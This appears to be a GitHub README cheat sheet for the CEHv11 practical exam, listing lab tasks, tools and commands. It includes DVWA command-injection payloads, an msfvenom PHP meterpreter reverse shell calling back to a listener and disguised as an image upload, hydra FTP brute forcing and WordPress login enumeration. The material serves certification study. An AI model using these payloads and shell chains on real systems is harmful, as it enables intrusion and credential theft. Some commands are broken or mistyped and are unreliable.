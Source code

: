 # CEHv11-CHEAT_CODE
# LOVE YOU 3000❤❤❤❤

1.Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

2. You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

3. U need to check the mysql service running on which host. Same question 2 technique you need to perform.

3. U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

4. U need to get the password.txt file using veracrypt (disk encryption)

5. U need to get the username and password using wireshark.

6. U need to check bit 3 is true or not using wireshark

7. U need to check the traffic from which port to which port is moving using wireshark

8. U need to decrypt the 3des encryption using cryptool.

9. U need to extract the pin using openstego

10. U need to perform steganalysis on the txt file using snow tool

11. U need to perform brute force on the website using burpsuite ( using intruder)

12. U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

14. Perform remote os command
 injection (dvwa web) and need to get the content from pin file

15. Perform file upload (dvwa web)

16. U need to compare the hashes using md5 and provide results which file is tampered.

17. Need to crack hash file ( john the ripper)

18. U need to find trojan and need to provide the port of the trojan
19. U need to perform the parameter tamperingo


For 8. The key value will be 11.

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

## DVWA 

### WINDOWS - COMMAND INJECTION


Easy - Command Injection 

Execute 127.0.0.1 & & net user
Execute 127.0.0.1 & & net user & & ver command
Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection 

127.0.0.1&net user
127.0.0.1&net user&sc query&systeminfo
127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

### FILE UPLOAD - WINDOWS

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path 

Click on command injectio and type below command
|copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg
 C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole 
Use multi/handler
Set payload php/meterpreter/reverse_tcp
Set lhost
Set lport
Run



# My experience - TILL NOW:

Above material was gathered for preparation, most of the  content is useless for me but its depend on Scenarios maybe you'll find it useful, So its upto you,beside of that you should make your own notes for ILABS videos on youtube.The Questions are interlinked so go with the flow and keep up with smooth pace. During the exam I have searched many things and even went through the commands manual for finding particular flags and tools to find the answer, so don’t worry if anything is missing in your custom cheatsheet as this is an open book exam. 

#### Tough questions I had in the exam.

An FTP site is hosted on a machine in a network. Obtain the file “flag.txt” by cracking the credentials of the FTP server and determine the content in this file.

_Ftp server was bruteforce easily but the file would not be retrieved as error stated that “Access Denied”._ 

An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file “SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. Path: C:\Users\Administrator\Documents\Findme

_No clue about this, like where to find the server in the network._

# Note: You can download and install tools If you'll does'nt find required tool on given machine, you can find tools from folder CEH-Tool on given windows machine as well.

## Tools I used .
```
Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
```

## Commands:
```
Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url http://10.10.10.12:8080/CEG --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI http://10.10.10.12:8080/CEH/
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist ftp://target
```

## DVWA - You can change the severity from impossible to easy.

# ITS EASY - IA you will pass the EXAM.
